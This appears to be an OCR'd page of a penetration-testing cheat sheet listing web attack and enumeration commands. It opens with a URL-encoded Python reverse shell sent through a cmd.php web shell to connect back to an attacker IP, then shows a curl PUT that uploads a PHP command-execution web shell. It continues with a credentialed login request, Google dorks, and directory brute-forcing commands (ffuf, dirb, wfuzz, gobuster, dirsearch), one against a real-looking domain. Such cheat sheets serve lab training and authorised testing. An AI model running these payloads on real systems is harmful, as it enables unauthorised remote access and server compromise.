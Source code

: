 ```bash
	&& http://10.1.10.111/test/cmd.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%210.1.10.111%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27

# Get everything
curl -i -L $IP
curl -i -H "User-Agent:Mozilla/4.0" http://$IP:8080

# Check for title and all links
curl $IP -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//'

# Look at page with just text
curl $IP -s -L | html2text -width '99' | uniq

# Check if it is possible to upload
curl -v -X OPTIONS http://$IP/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://$IP/test/shell.php

# Simple curl POST request with login data
curl -X POST http://10.11.1.11/centreon/api/index.php?action=authenticate -d 'username=centreon&password=wall'

# Google Dork

site:domain.com intext:user

https://github.com/sushiwushi/bug-bounty-dorks
```
#### Url Brutforce
```
# Ffuf
ffuf -c -e '.htm','.php','.html','.js','.txt','.zip','.bak','.asp','.aspx','xml','.log' -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -u https://10.11.1.11/mvc/FUZZ

# Dirb not recursive
dirb http://$IP -r -o dirb-$IP.txt

# Wfuzz
wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc 404 http://10.11.1.11/FUZZ

gobuster dir -u http://$IP -w /usr/share/seclists/Discovery/Web_Content/common.txt -s '200,204,301,302,307,403,500' -e

# dirseache
https://github.com/maurosoria/dirsearch

./dirsearch.py -u 10.10.10.157 -e php

./dirsearch -r -f -u https://crm.comprarcasa.pt --extensions=htm,html,asp,aspx,txt -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt --request-by-hostname -t 40


# Crawl:

dirhunt https://url.com/
hakrwaler https://url.com/

# Fuzzer:

ffuf -recursion -c -e '.htm','.php','.html','.js','.txt','.zip','.bak','.asp','.aspx','.xml' -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -u https://url.com/FUZZ

```